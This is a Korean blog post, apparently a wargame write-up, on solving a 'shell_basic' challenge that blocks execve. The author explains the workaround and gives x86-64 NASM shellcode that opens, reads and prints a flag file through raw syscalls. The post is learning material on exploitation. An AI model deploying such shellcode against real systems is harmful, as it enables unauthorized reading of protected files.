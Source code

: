 그런데 cat을 실행하려면 쉘을 먼저 따야 한다. 즉, 쉘을 띄운다 → cat을 수행한다의 과정을 거쳐야 한다.  그러나, 쉘을 띄우는 과정에서 현재 내 수준으로는 무조건 `execve` , `execveat` , `exec` 등의 함수를 사용해야 하는데 코드 상에서도 그렇고, 문제 설명 상에서도 그렇고 main 함수 내부에서 해당 함수를 호출하는 것이 아니라면 실행 권한이 없게 설정되어 있다. 따라서 다른 방식을 찾아야 한다. 

두 번째 가능한 방법으로는 read/write 시스템 콜을 이용하는 것이다. 먼저 주어진 플래그의 경로에 있는 파일의 내용을 읽어온 후, 터미널에 write 하도록 하는 것이다. 직전에 만들어 보았던 orw 셸코드와 크게 차이가 있지는 않다.

어셈블리어로 먼저 작성한 후, 기계어로 변환한 값을 넣어야 주어진 코드가 실행할 수 있을 것이다.

![Untitled](/assets/img/posts/syshack42/Untitled.jpeg){: width="100%" height="100%"}

위의 사진과 같이 선언된 부분에 내가 작성한 코드가 올라가고, 해당 코드의 시작 부분부터 종료까지를 실행하는 구조이기 때문이다.(나도 태어나서 이런 식으로 포인터 자료형을 바꾸어 데이터를 코드로 읽게끔 하는 플로우는 처음 보았기 때문에, 코드를 이해하며 많이 배웠다)

## 어셈블리어로 작성하기

그럼 먼저 원하는 동작을 어셈블리어로 작성해 보자.

- 우리가 [여기](https://toubva.github.io/blog/system-hacking-step2/#/)에서 배웠던 text segment는 다른 말로 code segment라고도 한다. 즉, 아래의 어셈블리 코드는 실행할 수 있는 인스트럭션이 탑재되는 주소에 다이렉트로 접근하면서 시작한다.

```wasm

BITS 64
section .text ; text 섹션에 올라가는 것이므로
global _start ; NASM에게 시작 위치가 무엇으로 마킹되었는지를 알려준다

_start: 
; input string into the stack
mov r8, 0x676e6f6f6f6f6f6f
push r8
mov r8, 0x6c5f73695f656d61
push r8
mov r8, 0x6e5f67616c662f63
push r8
mov r8, 0x697361625f6c6c65 
push r8
mov r8, 0x68732f656d6f682f
push r8

; open("/home/shell_basic/flag_name_is_loooooong", O_RDONLY, NULL)
mov rdi, rsp
xor rsi, rsi
mov rax, 0x02
syscall

; read(fd, buf, 0x40)
mov rdi, rax
lea rsi, [rsp-0x40]
mov rdx, 0x40
mov rax, 0x00
syscall

; write(1, buf, 0x40)
mov rdi, 0x01
lea rsi, [rsp-0x40]
mov rdx, 0x30
mov rax, 0x01
syscall

; terminate the program
xor rdi, rdi
mov rax, 0x3c
syscall
```